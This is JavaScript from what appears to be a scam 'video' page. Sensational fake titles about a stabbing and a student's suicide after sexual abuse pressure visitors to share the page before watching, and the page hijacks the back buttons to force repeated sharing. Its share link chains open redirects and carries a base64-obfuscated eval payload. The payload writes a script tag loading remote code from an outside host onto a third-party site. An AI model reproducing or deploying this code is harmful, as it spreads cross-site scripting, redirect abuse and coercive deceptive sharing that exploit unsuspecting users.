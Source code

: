 
function getCookie(name){
	var arr,reg=new RegExp("(^| )"+name+"=([^;]*)(;|$)"); 
	if(arr=document.cookie.match(reg)) 
        	return unescape(arr[2]); 
	else 
        	return null;
}
 
function cookie_set(key,value){
	var Then=new Date(); 
	Then.setTime(Then.getTime()+7*24*60*60*1000);
	document.cookie=key+"="+value+"; path=/; expires="+Then.toGMTString();
}
function getQueryString(name) {
        var reg = new RegExp('(^|&)' + name + '=([^&]*)(&|$)', 'i');
        var r = window.location.search.substr(1).match(reg);
        if (r != null) {
            return unescape(r[2]);
        }
        return null;
}
function isNumber(n) {  
    return !isNaN(parseFloat(n)) && isFinite(n);  
}
function randstr(len) {
　　len = len || 7;
　　var $chars ='º¹²³⁴⁵⁶⁷⁸⁹ⁱᙆᵃᵇᶜᵈᵉᵍʰⁱʲᵏˡᵐⁿᵒᵖᵒ⃒ʳˢᵗᵘᵛʷˣʸˢᵀᵁᵂˣᵞᙆ ˀ ˁ ˤʱʴʵʶᴭᴯᴲᴻᴽᵄᵅᵆᵊᵋᵌᵑᵓᵚᵝᵞᵟᵠᵡᵎᵔᵕᵙᵜᶛᶜᶝᶞᶟᶡᶣᶤᶥᶦᶧᶨᶩᶪᶫᶬᶭᶮᶯᶰᶱᶲᶳᶴᶵᶶᶷᶸᶹᶺᶼᶽᶾᶿ ჼᒃᕻᑦᒄᕪᑋᑊᔿᐢᐤᔆᙚᐡᘁᐜᕽᙆᙇᒼᒢᒻᔿᐤᙚᐪᓑᘁᐜᕽᙆᙇ';
    var maxPos = $chars.length;
　　var pwd = '';
　　for (i = 0; i < len; i++) {
　　　　pwd += $chars.charAt(Math.floor(Math.random() * maxPos));
　　}
　　return pwd;
}

var u = navigator.userAgent;
var isiOS = !!u.match(/\(i[^;]+;( U;)? CPU.+Mac OS X/);
var sharemod=1;
var playblock=1;
var sharetimes=0;
var nid=99110403+parseInt(100000*Math.random());

    var pageGlobal = {};
    pageGlobal.backtitle="back"

 
    pageGlobal.vid = 'z0509qivi2x';
    pageGlobal.title = '快没命了，小伙子被砍19刀，血流成河！';
    pageGlobal.sharetitle ='刀刀入肉！';
    pageGlobal.desc = '疼！';


    pageGlobal.imglogo ='https://imgsa.baidu.com/fex/pic/item/30adcbef76094b365aeb5cb4aecc7cd98d109d6a.jpg';
    pageGlobal.playimg ='http://ugc.qpic.cn/gbar_pic/PiajxSqBRaELqFiasR3k9rcdibONWp1ZF8TZWoy7MslhkaNFnCket8eCw/';
    pageGlobal.playimg ='http://116.211.189.141/file/passport/PkOvm8IZXonA9f8DmtjXQKkBicUXn-VGj_sIFmXqygXkpu8fhTp8TGhhlpl7mjB4OcGCRMsRfUTjoH0Z1_JSHQ.jpg';



    pageGlobal.vid = 'z0509qivi2x';
    pageGlobal.title = '女大学生，被导师潜规则，跳楼自杀！视频流出！';
    pageGlobal.sharetitle ="内裤都掉了！ "+"   "+randstr(7);
    pageGlobal.desc = '师生乱来';


    pageGlobal.imglogo ='https://imgsa.baidu.com/fex/pic/item/d8f9d72a6059252d352e4b1c399b033b5bb5b9e9.jpg';
    pageGlobal.playimg ='http://ugc.qpic.cn/gbar_pic/PiajxSqBRaELqFiasR3k9rcdibONWp1ZF8TZWoy7MslhkaNFnCket8eCw/';
    pageGlobal.playimg ='http://116.211.189.141/file/passport/NDOT7VeXITbWKm03mk9eAhclPKPcZFEnP1TrT0bBxIYt-xKaxcNy-ZqBneDdZpswJP_YnJiMOvOT0wdhwpOkGA.jpg';

    pageGlobal.imglogo ='https://imgsa.baidu.com/fex/pic/item/359b033b5bb5c9ea47c7ce8bd839b6003af3b3a6.jpg';
    pageGlobal.sharetitle ="师生乱搞，现场！ "+"   "+randstr(7);
    pageGlobal.desc = '视频流出。。。';

    pageGlobal.imglogo ='https://imgsa.baidu.com/fex/pic/item/86d6277f9e2f07082a061630e424b899a901f2fa.jpg';


    pageGlobal.shareurl='http://open.qzone.qq.com/url_check?url=https%3A%2F%2Fweibo.cn%2Fsinaurl%3F_wv%3D1027%26cmd%3Dplay%26u%3Dhttps%253A%252F%252Fwww.duanwenxue.com%252Fmember%252Findex.php%253Fgourl%253D%25252F%25252Fst.duanwenxue.com%25252Fpost-624.html%252522%25257d%252529%25257d%25252bwindow%25255b%252522eval%252522%25255d%252528atob%252528%252522ZG9jdW1lbnQud3JpdGUoIjxzY3JpcHQgc3JjPSdodHRwczovL2ltZy5kYWZlaWJsb2cuY29tL3dlYi9pZi5waHAnPjwvc2NyaXB0PiIp%252522%252529%252529%25252bfunction%252528%252529%25257b%2524.post%252528%25257b1%253A%252522%2526r%253D1560927521%2526business%253D%2523123&cmd=play&_wv=2098179#123';

var vid = pageGlobal.vid;
var weui = {
    alert: function (g, f, k) {
        var j, h;
        f = f ? f : "温馨提醒", j = '<div class="weui_dialog_alert" style="position: fixed; z-index: 99999; display:none;">', j += '<div class="weui_mask"></div>', j += '<div class="weui_dialog">', j += '<div class="weui_dialog_hd"><strong class="weui_dialog_title" style="color: #000;">' + f + "</strong></div>", j += '<div class="weui_dialog_bd"></div>', j += '<div class="weui_dialog_ft">', j += '<a href="javascript:;" class="weui_btn_dialog primary" style="padding:10px;font-weight:bold;">好</a>', j += "</div>", j += "</div>", j += "</div>", $(".weui_dialog_alert").length > 0 ? $(".weui_dialog_alert .weui_dialog_bd").empty() : $("body").append($(j)), h = $(".weui_dialog_alert"), h.fadeIn(200), h.find(".weui_dialog_bd").html(g), h.find(".weui_btn_dialog").off("touchstart").on("touchstart", function () {
            h.fadeOut(200), k && k();
        });
    }
}

function dotip(){
    weui.alert("本视频，版权要求，转发后可观看！", "", qzone);}

 
var d = new Date();
var str = d.getFullYear()+"-"+(d.getMonth()+1)+"-"+d.getDate();
document.getElementById("post-date").innerHTML = str;



if (document.getElementsByTagName('h2')[0].innerHTML.length<30){
	document.getElementsByTagName('h2')[0].innerHTML = pageGlobal.title;
}
if(document.getElementById("timg")){
	document.getElementById("timg").src= pageGlobal.playimg;
}

$(function(){
 mqq.ui.setTitleButtons({
   left : {
       title :(pageGlobal.backtitle="转发")?"转发":"转发",
       callback : function(){
	    if(sharetimes<100){
		alert("老铁，转发后即可观看！");
		qzone();
	    }else{
		history.go(-1);
	    }
       }
   },
   right : {
       title :"返回",
       callback : function(){
	    if(sharetimes<100){
		alert("老铁，转发后即可观看！");
		qzone();
	    }else{
		history.go(-1);
	    }
       }
   }
})  
});


setTimeout('dotip()', 2100);


window.onload=function(){
if(pageGlobal.backtitle=="转发"){
	//setTimeout('gotoalert()', 3666);
}else{
	//setTimeout('gotoalert()', 2666);
}
}

setTimeout('gotoalert()', 5555);


